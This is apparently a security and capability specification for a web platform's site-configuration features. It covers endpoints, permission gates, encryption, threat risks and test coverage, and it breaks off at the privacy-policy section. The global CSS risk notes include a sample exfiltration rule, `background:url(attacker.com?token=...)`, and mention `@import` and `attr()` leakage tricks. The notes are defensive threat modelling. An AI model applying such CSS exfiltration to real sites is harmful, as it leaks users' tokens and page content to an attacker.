







# Cluster: Site Configuration & Theming

The configuration layer driving most behavior, branding, and feature toggles. Backend: `routes/v2/system/site-management.route.js`, `services/siteConfig.service.js`, `models/siteConfig.model.js`, `config/predefinedSiteConfigs.js`. Frontend: `pages/SiteConfigManagement.tsx`.

---

## Capabilities in this cluster

| ID | Capability |
|----|------------|
| [CAP-CONFIG-01](#cap-config-01--site-config-crud) | Site config CRUD |
| [CAP-CONFIG-02](#cap-config-02--site-config-management-admin) | Site Config management (admin) |
| [CAP-CONFIG-03](#cap-config-03--global-css-theming) | Global CSS theming |
| [CAP-CONFIG-04](#cap-config-04--home-config-editor) | Home config editor |
| [CAP-CONFIG-05](#cap-config-05--branding) | Branding |
| [CAP-CONFIG-06](#cap-config-06--auth-config-flags) | Auth config flags |
| [CAP-CONFIG-07](#cap-config-07--sso--email-configuration) | SSO & Email configuration |
| [CAP-CONFIG-08](#cap-config-08--site-config-snapshots--restore) | Site config snapshots & restore |
| [CAP-CONFIG-09](#cap-config-09--privacy-policy) | Privacy policy |

## CAP-CONFIG-01 — Site config CRUD

### Description

Generic key-value store, scoped (`site`/`user`/`model`/`prototype`/`api`), with value types (string/boolean/number/array/object/image_url/color/date), a `secret` flag, categories; unique on `(key, scope, target_id)`. Predefined configs seeded on startup (`$setOnInsert`, never overwriting admin values).

### Who uses it / value

Admins (configure the platform); end users (consume public config); the app (feature toggles/branding).

### Acceptance criteria

- Admin: `GET/POST /v2/site-config`, `GET /v2/site-config/all`, `POST /v2/site-config/by-keys`, `POST /v2/site-config/bulk-upsert`, `GET/PATCH/DELETE /v2/site-config/:id`, `/key/:key`, `/:scope/:target_id[/all]` → `200`/`201`/`204` as appropriate.
- Public: `GET /v2/site-config/public[/:key|/:scope/:target_id[/:key]]` returns non-secret configs; `GET /v2/site-config/sso/providers` returns enabled providers without secrets.

### Quality control

Admin sets a key → public read reflects it (unless `secret`); upsert by key; bulk-upsert; seeding never overwrites an admin-set value.

### Security

Public routes public; everything else requires `MANAGE_USERS`. `secret` configs are never exposed publicly.

**Coverage:**
- **Auth:** required for admin routes (`auth()` + `checkPermission(PERMISSIONS.ADMIN)` applied via `router.use` after the public block); public read routes (`/public*`, `/sso/providers`) anonymous.
- **Authorization:** `MANAGE_USERS` (`PERMISSIONS.ADMIN = 'manageUsers'`) on every admin CRUD/scope/by-keys/bulk-upsert/restore-snapshot/global-css/email-test route; public reads have no permission check.
- **Input validation:** Joi (`validations/siteConfig.validation.js`) on create/get/get-by-key/update/delete/by-keys/bulk-upsert/restore-snapshot — scope enum (`site`/`user`/`model`/`prototype`/`api`), conditional `target_id`, `valueType` enum, `secret` boolean; `value` itself is `Joi.any()` (no shape check).
- **Rate limiting:** not applied — `authLimiter` is defined in `middlewares/rateLimiter.js` but is not wired onto any site-config route.
- **Secrets:** `secret` flag excludes values from public reads (`getPublicSiteConfigs` filters `secret: false`); `SSO_PROVIDERS` `clientSecret` and `EMAIL_CONFIG` `apiKey`/`smtpConfig.pass` are encrypted at rest via `utils/encryption.js` (AES-256-CBC, key derived from `config.jwt.secret`), decrypted only for admin display.

**Risks:**
- **Config takeover:** a missing `MANAGE_USERS` check on admin endpoints would let any user flip security-critical flags (e.g. disable `PUBLIC_VIEWING` gating or enable `SELF_REGISTRATION`) and take over the instance's auth posture.
- **Secret leakage:** if the `secret` flag were honored only client-side or stripped from a single endpoint, secrets such as SSO `clientSecret` or email API keys could leak via a public read path.
- **Scope/target_id spoofing:** write endpoints keyed on `(key, scope, target_id)` could let an attacker write into another tenant's/model's scope if scope authorization is not enforced server-side.

### Data protection

`secret` flag hides values from public reads; SSO provider secrets + email API keys **encrypted at rest** (`utils/encryption.js`), decrypted only for admin display.

**Coverage:**
- **Stored data:** `site_configs` collection (fields: `key`, `scope`, `target_id`, `value` (Mixed), `valueType`, `secret`, `description`, `category`, `created_by`, `updated_by`); `SiteConfigSnapshot` mirrors site-scope configs for restore; unique index on `(key, scope, target_id)`.
- **PII:** no — config values only; `created_by`/`updated_by` hold admin user ObjectIds (refs, not PII).
- **Retention:** indefinite — no TTL; `deleteSiteConfig*` performs hard `deleteOne()`.
- **Encryption:** AES-256-CBC at rest for secret-flagged `SSO_PROVIDERS.clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass` (IV-prefixed ciphertext, key = sha256 of `jwt.secret`); non-secret values stored plaintext.
- **Logging:** none / N/A — no explicit logging of config values; encryption/decryption errors go to `console.error` (no values logged on the success path).

**Risks:**
- **Plaintext-at-rest fallback:** if encryption were bypassed or a new secret type were added without wiring it through `utils/encryption.js`, secrets would sit in plaintext and a DB dump would expose live credentials.
- **Admin-display interception:** secrets are decrypted for admin display, so a compromised admin session or logged response body leaks usable SSO/email credentials directly.

### Test coverage
- **E2E (Playwright):** 2 test case(s) in `site-config-restore-default.spec.ts` — SITEMAP: ⚠️ (public config write+read asserted as scaffolding for restore-default; admin CRUD endpoint matrix, by-keys, bulk-upsert, scoped reads, and secret handling not exercised)
- **Unit (Jest):** none

## CAP-CONFIG-02 — Site Config management (admin)

### Description

Admin page with 11 sections (Public, Home, Site Style, Auth, Model & Prototype, GenAI/ProtoPilot, SSO, Email, Secret, Standard Staging, Privacy), each with edit + edit history (restore/snapshot).

### Who uses it / value

Admins (central configuration).

### Acceptance criteria

- Route `/admin/site-config` (`MANAGE_USERS`); each section edits its keys; edit history supports restore.

### Quality control

Edit a config in a section → value persists + applies site-wide; restore from history → reverts.

### Security

`MANAGE_USERS` for all sections.

**Coverage:**
- **Auth:** required — `router.use(auth(), checkPermission(PERMISSIONS.ADMIN))` gates every admin site-config route used by the 11 sections.
- **Authorization:** `MANAGE_USERS` (`PERMISSIONS.ADMIN = 'manageUsers'`) — single shared gate for all sections (Public, Home, Site Style, Auth, Model & Prototype, GenAI/ProtoPilot, SSO, Email, Secret, Standard Staging, Privacy).
- **Input validation:** Joi on write endpoints (create/update/bulk-upsert/restore-snapshot); `value` is `Joi.any()` (section-specific shapes like home blocks/SSO providers/email config are not schema-validated server-side); global-css PUT and email/test use controller-level checks only (`typeof content !== 'string'`, `to` required).
- **Rate limiting:** not applied — `authLimiter` defined but not wired onto site-config routes.
- **Secrets:** secret sections mask values in UI; SSO `clientSecret` / EMAIL `apiKey`/`smtpConfig.pass` encrypted at rest, decrypted only for admin display within the Secret/SSO/Email sections.

**Risks:**
- **Single-gate blast radius:** every section sits behind the same `MANAGE_USERS` permission, so one compromised admin (or one overly-broad grant) can rewrite auth, SSO, email, and feature flags simultaneously.
- **History restore abuse:** if restore-from-history lacked re-authorization, an attacker who once held `MANAGE_USERS` could replay an old config (e.g. re-enabling disabled SSO) after their access was revoked.

### Data protection

Edit history (snapshots) retained; secret sections mask values.

**Coverage:**
- **Stored data:** `site_configs` (live config) + `SiteConfigSnapshot` (edit history / deploy snapshot) — site-scope configs including encrypted secret values in SSO/Email/Secret sections; admin user ids in `created_by`/`updated_by`.
- **PII:** no — administrative configuration only; `created_by`/`updated_by` are admin user refs.
- **Retention:** indefinite — snapshots retained until overwritten by a new deploy-seed sync (`SiteConfigSnapshot.deleteMany({})` + reinsert) or manual restore; no TTL on live configs.
- **Encryption:** secrets stored encrypted (AES-256-CBC, `utils/encryption.js`) in both live config and snapshots; non-secret config plaintext.
- **Logging:** none / N/A — no explicit logging of section edits or secret values.

**Risks:**
- **Snapshot retention of secrets:** edit history snapshots may retain prior secret values; if those snapshots aren't masked/encrypted like the live config, old credentials remain recoverable.
- **Change history leak:** config edit history can reveal administrative actions, SSO provider changes, and email setup patterns to anyone with admin access.

### Test coverage
- **E2E (Playwright):** 8 test case(s) in `admin.spec.ts` (1 — site-config page loads) + `nav-bar-actions.spec.ts` (7 — navbar-actions section editor within site-config) — SITEMAP: ⚠️ (page load + nav section covered; 10 of 11 sections incl. Auth/SSO/Email/Secret/Privacy untested)
- **Unit (Jest):** none

## CAP-CONFIG-03 — Global CSS theming

### Description

Admin-managed stylesheet served at `/static/global.css`; get/update/restore-default.

### Who uses it / value

Admins (brand the site); end users (themed UI); plugins (consume CSS variables).

### Acceptance criteria

- The stylesheet is served publicly at `/static/global.css` (loaded in `index.html`); the admin endpoints `GET /v2/site-config/global-css` (auth + `MANAGE_USERS`) → `200`, `PUT /v2/site-config/global-css` (auth + `MANAGE_USERS`) → `200`, and `POST /v2/site-config/global-css/restore-default` (auth + `MANAGE_USERS`) → restores the shipped default.

### Quality control

Edit `:root` tokens (e.g. `--primary`) → UI re-themes live; restore-default → reverts.

### Security

All three `/v2/site-config/global-css` endpoints require auth + `MANAGE_USERS`; the stylesheet itself is public at `/static/global.css`. CSS can contain selectors only (no script); instance overrides use `!important` guidance.

**Coverage:**
- **Auth:** required for `GET /global-css`, `PUT /global-css`, `POST /global-css/restore-default` (gated by `router.use(auth(), checkPermission(PERMISSIONS.ADMIN))`); the stylesheet itself is served publicly via `app.use('/static', express.static(...))` with no auth.
- **Authorization:** `MANAGE_USERS` on all three admin endpoints.
- **Input validation:** controller-level only — `updateGlobalCss` checks `typeof content !== 'string'` and 400s otherwise; no Joi schema on global-css routes; no sanitization/allowlist of CSS rules (`@import`, `url()`, `attr()` permitted).
- **Rate limiting:** not applied — `authLimiter` defined but not wired onto global-css routes.
- **Secrets:** none — stylesheet text only; no credentials involved.

**Risks:**
- **CSS-based exfiltration:** even without `<script>`, an attacker who can write the stylesheet can craft `background:url(attacker.com?token=...)`-style rules to exfiltrate page content and tokens, or use `@import` to pull remote stylesheets.
- **Unauthenticated styling takeover:** if `PUT` lacked the `MANAGE_USERS` check, anyone could restyle the site (defacement) or mount phishing-by-styling (hiding warnings, recoloring buttons to lure clicks).
- **DOM-based attacks via selectors:** hostile selectors combined with `attr()`/content tricks can extract attributes from rendered DOM and leak them via image requests.

### Data protection

Stylesheet text only; no PII.

**Coverage:**
- **Stored data:** `static/global.css` file on disk (not in `site_configs`); `static/global_org.css` holds the shipped default copied over on restore.
- **PII:** no — stylesheet text only.
- **Retention:** indefinite — file persists on disk until overwritten by `PUT` or `restore-default`; no versioning.
- **Encryption:** none — plaintext CSS file on the backend filesystem.
- **Logging:** none / N/A — no logging of CSS content.

**Risks:**
- **Indirect PII leak:** if CSS can target elements that render user data (e.g. names in attribute values), attribute-value exfiltration could disclose PII to an attacker-controlled endpoint.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (no spec exercises `GET/PUT /global-css`, `/global-css/restore-default`, or `/static/global.css` theming)
- **Unit (Jest):** none

## CAP-CONFIG-04 — Home config editor

### Description

Drag-and-drop editor for `CFG_HOME_CONTENT` blocks (hero, feature-list, button-list, news, recent, popular, partner-list, home-footer) + raw JSON/preview/history.

### Who uses it / value

Admins (compose the landing page).

### Acceptance criteria

- Edits `CFG_HOME_CONTENT`; `PageHome` renders blocks via `homeComponentMap`; unknown block types skipped.

### Quality control

Add/reorder blocks → home page reflects changes; preview shows layout; raw JSON editable.

### Security

Admin only.

**Coverage:**
- **Auth:** required — edits to `CFG_HOME_CONTENT` go through the admin site-config write routes (`auth()` + `checkPermission(PERMISSIONS.ADMIN)`); public reads of the non-secret config are anonymous.
- **Authorization:** `MANAGE_USERS` for edits; public read has no permission check.
- **Input validation:** Joi on the site-config write (`value` is `Joi.any()` — block array shape not schema-validated server-side); frontend raw JSON editor + preview; `image_url` fields not URL-validated.
- **Rate limiting:** not applied — `authLimiter` defined but not wired.
- **Secrets:** none — `CFG_HOME_CONTENT` is non-secret public content.

**Risks:**
- **Stored XSS via block content:** if block titles/descriptions/image URLs are rendered without sanitization, an admin (or a compromised admin account) could inject markup/scripts into every visitor's landing page.
- **Malicious image URL redirect:** `image_url` fields, if not validated, could point to attacker-controlled hosts used for tracking or to serve malicious payloads.

### Data protection

Block content (titles/descriptions/image URLs); `requiredLogin` flags on action buttons.

**Coverage:**
- **Stored data:** `CFG_HOME_CONTENT` value (array of block objects: hero, feature-list, button-list, news, recent, popular, partner-list, home-footer) in `site_configs` (scope `site`, non-secret); edit-history snapshots in `SiteConfigSnapshot`.
- **PII:** no — marketing/landing content; admin-entered free text could in principle include names but no user PII is system-stored here.
- **Retention:** indefinite — config value persists until edited/restored; snapshots per sync cycle.
- **Encryption:** none — plaintext public config value.
- **Logging:** none / N/A — no logging of block content.

**Risks:**
- **Login-flow confusion:** a `requiredLogin` flag on action buttons drives auth gating; if misconfigured or tampered with, buttons could route users to attacker-controlled auth flows (credential phishing) from the public landing page.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (`home-sections.spec.ts` renders home blocks but does not exercise the `CFG_HOME_CONTENT` admin editor, raw JSON, preview, or history)
- **Unit (Jest):** none

## CAP-CONFIG-05 — Branding

### Description

`SITE_TITLE`, `SITE_LOGO_WIDE`, `SITE_FAVICON`, `SITE_THEME_COLOR`, `SITE_DESCRIPTION`.

### Who uses it / value

Admins (brand identity); end users (consistent branding).

### Acceptance criteria

- Consumed in `NavigationBar`/`RootLayout`/fullscreen dashboard logo.

### Quality control

Set `SITE_TITLE` → nav title + browser title update; set logo → renders.

### Security

Public read; admin write.

**Coverage:**
- **Auth:** public read anonymous (`/v2/site-config/public*` returns non-secret branding keys); admin write requires `auth()` + `checkPermission(PERMISSIONS.ADMIN)`.
- **Authorization:** `MANAGE_USERS` for writes; public reads no permission check.
- **Input validation:** Joi on site-config write (`value` `Joi.any()`); service infers `image_url` valueType via regex (`^https?://...\\.(jpg|jpeg|png|gif|webp|svg)(\\?.*)?$`) but does not enforce it on `SITE_LOGO_WIDE`/`SITE_FAVICON` writes — URLs are stored as-is.
- **Rate limiting:** not applied — `authLimiter` defined but not wired.
- **Secrets:** none — branding values are public.

**Risks:**
- **Brand spoofing via logo URL:** `SITE_LOGO_WIDE`/`SITE_FAVICON` are URLs; if an admin (or anyone with write access) sets them to an external host, the site loads third-party assets, enabling tracking or phishing via a swapped logo.
- **Phishing via title/description:** a malicious `SITE_TITLE`/`SITE_DESCRIPTION` could impersonate another brand on the public site and browser tab, aiding credential phishing.

### Data protection

Branding asset URLs only.

**Coverage:**
- **Stored data:** `SITE_TITLE`, `SITE_LOGO_WIDE`, `SITE_FAVICON`, `SITE_THEME_COLOR`, `SITE_DESCRIPTION` values in `site_configs` (scope `site`, `secret: false`).
- **PII:** no — branding text/asset URLs.
- **Retention:** indefinite — public config values persist until edited/restored.
- **Encryption:** none — plaintext public config.
- **Logging:** none / N/A — branding values exposed via public read by design.

**Risks:**
- **Asset-URL leakage:** branding URLs can reveal internal hosting paths or third-party providers in the public config response.

### Test coverage
- **E2E (Playwright):** 7 test case(s) in `nav-bar-actions.spec.ts` — SITEMAP: ⚠️ (NAV_BAR_ACTIONS editor + navbar rendering covered; `SITE_TITLE`/`SITE_LOGO_WIDE`/`SITE_FAVICON`/`SITE_THEME_COLOR`/`SITE_DESCRIPTION` not directly tested)
- **Unit (Jest):** none

## CAP-CONFIG-06 — Auth config flags

### Description

`PUBLIC_VIEWING`, `SELF_REGISTRATION`, `SSO_AUTO_REGISTRATION`, `PASSWORD_MANAGEMENT` (all default `true`); loaded into `req.authConfig` per request; secure-fail to false on error.

### Who uses it / value

Admins (control access/registration); the app (gating).

### Acceptance criteria

- Flags drive auth behavior across the app (see [identity-access.md](./identity-access.md)); restore defaults from `predefinedAuthConfigs.js`.

### Quality control

Toggle `PUBLIC_VIEWING` off → signed-out users can't browse; `SELF_REGISTRATION` off → register `403`.

### Security

Public (effective flags observable); admin to change; safe-default all-false on error.

**Coverage:**
- **Auth:** effective flags publicly observable via `/v2/site-config/public*`; admin change requires `auth()` + `checkPermission(PERMISSIONS.ADMIN)`; `loadAuthConfigs` middleware runs on every request.
- **Authorization:** `MANAGE_USERS` to change flag values; public reads no permission check.
- **Input validation:** Joi on site-config write (`valueType: 'boolean'`, `secret: false`); `loadAuthConfigs` reads booleans via `getAuthConfig` and coerces to boolean.
- **Rate limiting:** not applied — `authLimiter` defined but not wired.
- **Secrets:** none — boolean flags only.

**Risks:**
- **Flag tampering to bypass auth:** if the admin write check on these flags were weak, an attacker could flip `PUBLIC_VIEWING=true` or `SELF_REGISTRATION=true` to weaken access controls or open anonymous registration.
- **Fail-open on load error:** the design secure-fails to all-false; if that fallback regressed to fail-open, a config-load error would silently expose the site to anonymous users.
- **Observability leak:** effective flags are publicly observable, which can help attackers probe which auth paths are enabled (e.g. whether self-registration is open).

### Data protection

Boolean flags only.

**Coverage:**
- **Stored data:** `PUBLIC_VIEWING`, `SELF_REGISTRATION`, `SSO_AUTO_REGISTRATION`, `PASSWORD_MANAGEMENT` boolean values in `site_configs` (scope `site`, `secret: false`, `category: 'auth'`); in-memory `authConfigCache` (5-min TTL) + per-request `req.authConfig`.
- **PII:** no — boolean flags only.
- **Retention:** indefinite — config flags persist until changed/restored; cache evicted after 5 min.
- **Encryption:** none — plaintext booleans (non-secret by design).
- **Logging:** none / N/A — `loadAuthConfigs` logs `console.error('Failed to load auth configs:', error)` on failure (no flag values logged on success).

**Risks:**
- **Inference of attack surface:** while flags are booleans only, exposing which gates are enabled tells an attacker exactly which registration/SSO avenues to target.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (`admin-features.spec.ts` tests feature role assignment, not auth config flag toggling; no spec exercises `PUBLIC_VIEWING`/`SELF_REGISTRATION`/`SSO_AUTO_REGISTRATION`/`PASSWORD_MANAGEMENT` gating)
- **Unit (Jest):** none

## CAP-CONFIG-07 — SSO & Email configuration

### Description

`SSO_PROVIDERS` (encrypted `clientSecret`) with public enabled-providers list; `EMAIL_CONFIG` (provider resend/smtp/none, from, apiKey, smtpConfig, encrypted secrets) + test send.

### Who uses it / value

Admins/DevOps (configure SSO + email); end users (SSO buttons).

### Acceptance criteria

- `GET /v2/site-config/sso/providers` → enabled providers (no secrets); admin CRUD decrypts for display. `POST /v2/site-config/email/test` → sends a test email.

### Quality control

Add an SSO provider → sign-in button appears; configure email (Resend/SMTP) → test send succeeds; remove provider → button hidden.

### Security

Secrets encrypted at rest; never in public reads; admin-only writes.

**Coverage:**
- **Auth:** required (admin) for SSO/Email CRUD + `POST /v2/site-config/email/test` (gated by `router.use(auth(), checkPermission(PERMISSIONS.ADMIN))`); `GET /v2/site-config/sso/providers` is public (anonymous) and strips `clientSecret`.
- **Authorization:** `MANAGE_USERS` for admin writes/test-send; public providers endpoint returns enabled providers only (no `clientSecret`).
- **Input validation:** Joi on site-config write (`value` is `Joi.any()` — provider objects and `EMAIL_CONFIG` shape not schema-validated server-side); `sendTestEmail` checks `to` present (controller-level, no Joi schema on `/email/test`).
- **Rate limiting:** not applied — `authLimiter` defined but not wired onto SSO/email routes (test-send is unthrottled).
- **Secrets:** `SSO_PROVIDERS[].clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass` encrypted at rest (AES-256-CBC, `utils/encryption.js`); `getEnabledSSOProviders` destructures out `clientSecret` before returning; decrypted only for admin display in SSO/Email sections.

**Risks:**
- **SSO secret theft:** a compromised admin session decrypts `clientSecret` for display; a stolen secret lets an attacker impersonate the SP and intercept SSO logins.
- **Email API key abuse:** a leaked `EMAIL_CONFIG` apiKey/smtp credentials let an attacker send mail as the platform (phishing from a trusted domain) or exhaust the mail quota.
- **Provider-list spoofing:** if the public providers endpoint returned config beyond the enabled flag, it could leak redirect URLs / client IDs useful for phishing.

### Data protection

Secrets (clientSecret/apiKey/smtp pass) encrypted; email logs may include recipient addresses.

**Coverage:**
- **Stored data:** `SSO_PROVIDERS` (array of provider objects incl. encrypted `clientSecret`) and `EMAIL_CONFIG` (object incl. encrypted `apiKey`/`smtpConfig.pass`) in `site_configs` (scope `site`, `secret: true`).
- **PII:** no provider PII — but `POST /email/test` takes a `to` recipient email address (admin-supplied) returned in the response message `Test email sent to <to>`.
- **Retention:** indefinite — encrypted secrets persist until an admin rotates them; no TTL/expiry.
- **Encryption:** AES-256-CBC at rest for `clientSecret`, `apiKey`, `smtpConfig.pass` (IV-prefixed ciphertext, key = sha256 of `jwt.secret`); already-encrypted values (containing `:`) are not re-encrypted.
- **Logging:** test-send response includes the recipient address; no explicit secret logging (decryption errors `console.error` without values on success path).

**Risks:**
- **Recipient disclosure in logs:** test-send logs may include recipient addresses, surfacing the admin's email (and any test recipients) in audit/log stores.
- **Persistent credential reuse:** encrypted secrets persist until rotated; a past compromise leaves stolen credentials valid until an admin manually rotates them.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (no spec exercises SSO provider CRUD, `/sso/providers` public list, `EMAIL_CONFIG` setup, or `/email/test`)
- **Unit (Jest):** none

## CAP-CONFIG-08 — Site config snapshots & restore

### Description

Maintains a `SiteConfigSnapshot`; admin restore merges the deploy snapshot with predefined defaults (snapshot wins per key), filtered by keys/categories/secret, reporting source (`snapshot`/`predefined`/`mixed`/`none`).

### Who uses it / value

Admins/DevOps (recover config after a bad change or migration).

### Acceptance criteria

- `POST /v2/site-config/restore-snapshot` (admin) → `200` restored config with per-key source; auto-synced when the deploy seeder runs.

### Quality control

Change a config → restore-snapshot → reverts to snapshot (where present) / predefined default.

### Security

Admin only.

**Coverage:**
- **Auth:** required — `POST /v2/site-config/restore-snapshot` is gated by `router.use(auth(), checkPermission(PERMISSIONS.ADMIN))`.
- **Authorization:** `MANAGE_USERS` — only admins may trigger restore; no re-authorization of prior-snapshot provenance.
- **Input validation:** Joi on `restoreSiteConfigSnapshot` (body: `keys?: string[]`, `categories?: string[]`, `secret?: boolean`); service requires at least one filter (`buildSnapshotRestoreFilter` 400s on empty filter).
- **Rate limiting:** not applied — `authLimiter` defined but not wired onto restore-snapshot.
- **Secrets:** snapshot preserves `secret`-flagged configs in their encrypted form; restore re-upserts encrypted values (no decryption during restore); decrypted only on subsequent admin read.

**Risks:**
- **Snapshot replay of weak config:** an attacker who reaches `restore-snapshot` could replay an older, less-secure snapshot (e.g. before SSO was hardened), reverting the instance to a vulnerable posture.
- **Predefined-default downgrade:** if a key is missing from the snapshot, predefined defaults are applied; if predefined defaults ever contained a weak value historically, restore could re-introduce it.

### Data protection

Snapshots hold site-scope configs incl. encrypted secrets.

**Coverage:**
- **Stored data:** `SiteConfigSnapshot` collection — mirrors site-scope `site_configs` (key, scope, value, valueType, secret, description, category); auto-synced when deploy seeder runs (`syncSiteConfigSnapshotsIfNeeded`); `SiteConfigSnapshotMeta` tracks last-synced seed run.
- **PII:** no — config values + admin user refs only.
- **Retention:** indefinite per snapshot generation — sync does `SiteConfigSnapshot.deleteMany({})` + reinsert, so only the latest snapshot is retained (no history of prior snapshots); no TTL.
- **Encryption:** secrets stored encrypted in snapshots (same AES-256-CBC as live config; not re-encrypted during sync/restore).
- **Logging:** `console.log('[SiteConfig] Snapshot synced N config(s) from seed run at ...')` — count + timestamp only, no config values.

**Risks:**
- **Snapshot of secrets at rest:** snapshots include encrypted secrets; if encryption keys are rotated but old snapshots aren't re-encrypted, they become unreadable or, worse, decryptable with a leaked old key.
- **Recovery-time secret exposure:** during restore, decrypted secrets may flow into admin-visible output/logs, widening the window for capture.

### Test coverage
- **E2E (Playwright):** 2 test case(s) in `site-config-restore-default.spec.ts` — SITEMAP: ✅ (`Restore default` button in Public section calls `restoreConfigsFromSnapshot` → `POST /site-config/restore-snapshot`; revert + cancel flows covered)
- **Unit (Jest):** none

## CAP-CONFIG-09 — Privacy policy

### Description

Public Privacy Policy page from `PRIVACY_POLICY_CONTENT` markdown; admin editor with edit/preview + history.

### Who uses it / value

End users (legal info); admins (maintain policy).

### Acceptance criteria

